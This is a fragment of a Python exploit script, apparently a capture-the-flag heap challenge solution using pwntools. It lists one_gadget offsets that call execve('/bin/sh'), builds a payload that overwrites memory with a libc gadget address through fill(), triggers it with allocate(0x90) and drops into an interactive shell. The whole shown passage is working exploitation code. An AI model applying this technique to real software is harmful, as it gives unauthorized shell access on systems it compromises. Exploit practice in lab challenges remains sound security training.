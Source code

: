 ```python
0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

"""
one_gadget = libc_addr + 0x4526a
payload = flat(p8(0)*3, 0, 0, one_gadget)
fill(b'6', len(payload), payload)
allocate(0x90)

p.interactive()
```



